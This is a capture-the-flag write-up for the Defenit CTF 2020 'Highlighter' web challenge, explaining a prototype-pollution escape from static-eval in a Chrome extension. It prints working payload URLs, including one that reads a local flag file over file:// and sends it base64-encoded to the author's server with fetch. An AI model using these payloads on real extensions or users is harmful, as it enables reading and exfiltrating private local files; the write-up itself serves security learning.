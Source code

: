 # Highlighter
*Defenit CTF 2020 - Web 857*<br>
*Writeup by Payload as ToEatSushi*


## Problem

Do you like the Chrome extension?
I made a tool to highlight a string through this.
Use it well! :)

## `static-eval` prototype pollution

After hard fighting with `background.js`, I noticed it has a function that acts as `eval`, but **safely**. With some google searches, we can find it's `static-eval` of node.

Also, we can find **very** interseting [blog post](https://blog.p6.is/bypassing-a-js-sandbox/) about prototype pollution in `static-eval`, written by p0six who is a publisher of this problem.

## `.split()`

With prototype pollution, we overwrote `String.split` which is called by `onMessage` after `static-eval`. At first, we succeed to make `alert(1)` in **chrome extension**, not in user content (It's important).

```
http://highlighter.ctf.defenit.kr/read?id=84#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[alert(1)]:1}};});
```

## `file://`

When we looked `manifest.json`, there are host permissions over all `http://*/*`, `https://*/*`, and `file://*/*`. These host permissions allows chrome extensions to make a request without cross origin restrictions. Thus, when we can evaluate javascript code in **Chrome extension**'s side, we can read local file.

## `file:///`

However, according to `docker-compose.yml`, we have to know where the flag is at first. Since chrome supports directory listing in file scheme, thus just making a request to `file:///` give an index page of the root directory, and we can know a name of folder.

## Exploitation

1. Pollute prototype using vulnerability of `static-eval`
2. Overwrite `.split()` function to fetch local file, and send it to our server
3. Read `file:///` first, then `file://{secret}/flag`.

## Payload

```
http://highlighter.ctf.defenit.kr/read?id=2#''['__proto__']['__defineGetter__']('split',function(){return/**/function(x){return/**/{[(function(){var/**/r=new/**/XMLHttpRequest();r.open('GET','file:///6339e914b333b35d902a2dfd2c415656/flag',false);r.send();r.responseText;fetch('http://{our server}/'+btoa(r.responseText));})()]:1,'zxcv':'1'}};})
```

**`Defenit{Ch20m3_3x73n510n_c4n_b3_m0re_Inte7e5t1ng}`**
